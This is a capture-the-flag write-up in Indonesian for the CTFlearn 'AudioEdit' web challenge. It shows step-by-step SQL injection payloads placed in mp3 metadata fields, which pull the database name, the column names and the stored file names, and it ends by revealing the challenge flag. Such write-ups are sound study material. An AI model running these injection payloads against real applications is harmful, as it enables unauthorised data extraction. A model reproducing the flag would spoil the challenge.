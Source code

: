 # AudioEdit (160 Points)
I made this cool site for editing audio files. Can you exploit it? http://web.ctflearn.com/audioedit/
# Solved
Pada kasus ini saya pernah melihat sebuah Write-ups dari events <b>ABCTF</b>. Mungkin challenge ini dibuat untuk dipelajar-ulang. Dan target kita adalah mencapai URL
```
https://web.ctflearn.com/audioedit/edit.php?file=supersecretflagf1le.mp3
```
Disini kita diberikan sebuah Halaman upload https://web.ctflearn.com/audioedit/upload.php sebuah <b>mp3</b>
```
Edit Audio
Author: SoundJay.com Sound Effect
Title: Unknown Title
```
Disini setelah saya analisa, kita bisa mengatur dari <b>Author</b> dan <b>Title</b>. Dan tentu kemungkinan SQL Query nya adalah
```sql
INSERT INTO audio SET VALUES('namafile', 'author', 'title')
```
Kemudian untuk mendapatkan Database nya kita ubah pada <b>Contributing Artist</b>
```sql
AUTHOR', (SELECT database())) -- -; 
```
```
Title: audioedit
```
Kita mengetahui bahwa database dan table yang dipakai adalah <b>audioedit</b>, kemudian mari kita mencari kolomnya
```sql
AUTHOR', (SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE table_name='audioedit')) -- -; 
```
```
Title: id,file,author,title
```
Kemudian last step yaitu mendapatkan file yang ada di table tersebut
```sql
AUTHOR', (SELECT GROUP_CONCAT(file) FROM audioedit as tmp)) -- -; 
```
```
Title: supersecretflagf1le.mp3,dae94d2ae419b398c977f27f4190680715ae10c3.mp3,e5ab2208f0fc1076980ecb69398b93a5e55fd247.mp3,dfc9c5bc70f2f8
```
Kemudian akses https://web.ctflearn.com/audioedit/edit.php?file=supersecretflagf1le.mp3, Ubah <b>Visualisation</b> nya menjadi <b>Sonogram</b><br>
Flag : <b>ABCTF{m3t4_inj3cti00n}</b>